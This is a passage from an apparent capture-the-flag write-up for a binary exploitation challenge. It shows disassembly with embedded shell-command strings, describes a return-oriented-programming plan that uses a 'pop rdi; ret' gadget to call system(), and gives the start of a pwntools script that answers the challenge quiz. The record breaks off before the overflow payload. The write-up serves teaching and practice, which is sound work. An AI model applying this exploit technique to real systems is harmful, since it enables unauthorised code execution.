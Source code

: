 ```asm
│           0x0040125c      f348ab         rep stosq qword [rdi], rax
│           0x0040125f      48c78500fbff.  mov qword [var_500h], str._bin_ls__lah ; 0x40204e ; "/bin/ls -lah"
│           0x0040126a      488d95c0f9ff.  lea rdx, [var_640h]
│           0x00401271      b800000000     mov eax, 0
│           0x00401276      b928000000     mov ecx, 0x28               ; '(' ; 40
│           0x0040127b      4889d7         mov rdi, rdx
│           0x0040127e      f348ab         rep stosq qword [rdi], rax
│           0x00401281      48c785c0f9ff.  mov qword [var_640h], str._bin_uname__a ; 0x40205b ; "/bin/uname -a"
│           0x0040128c      488d9580f8ff.  lea rdx, [var_780h]
│           0x00401293      b800000000     mov eax, 0
│           0x00401298      b928000000     mov ecx, 0x28               ; '(' ; 40
│           0x0040129d      4889d7         mov rdi, rdx
│           0x004012a0      f348ab         rep stosq qword [rdi], rax
│           0x004012a3      48c78580f8ff.  mov qword [var_780h], str._bin_cat_hvfstjehcy.txt ; 0x402069 ; "/bin/cat hvfstjehcy.txt"
│           0x004012ae      90             nop
│           0x004012af      c9             leave
└           0x004012b0      c3             ret
```

This one does quite a lot of random stuff, basically just loading random .data addresses. 
This however does show a VERY interesting thing which is that a string containing the data "/bin/cat hvfstjehcy.txt" is
stored inside of the binary at address 0x402069. This is great news because we also have a system() call stored
inside of the program's .text section

Which means we can use ROP (Return Oriented Programming) in order to use a "pop rdi; ret" gadget to put 0x402069 inside
of rdi and jump to the system call to run `system("/bin/cat hvfstjehcy.txt");` and print the flag.

Note: We do have to jump EXACTLY at the system call address not the xyz function, otherwise rdi will be overwritten

Using **ROPgadget** I found `0x000000000040146b : pop rdi ; ret`

Alright now that we have an exploit plan, let's get to work !

### Exploiting the binary

As a little reminder, we do have to answer the quiz before reaching the vulnerable code ! 
So let's automate that using pwntools.

```py
#!/usr/bin/env python3

from pwn import *

context.binary = elf = ELF('./src/pwn02')
context.arch = 'amd64'
context.endian = 'little'
context.log_level = 'error'

if args.REMOTE:
    io = remote("pwn02.ctf.teamquark.com", 65302)
else:
    io = elf.process()

io.recvline("?\n")
io.sendline(b'elliot') # Send first answer

io.recvline("?\n")
io.sendline(b'Darlene Alderson') # Send second answer

```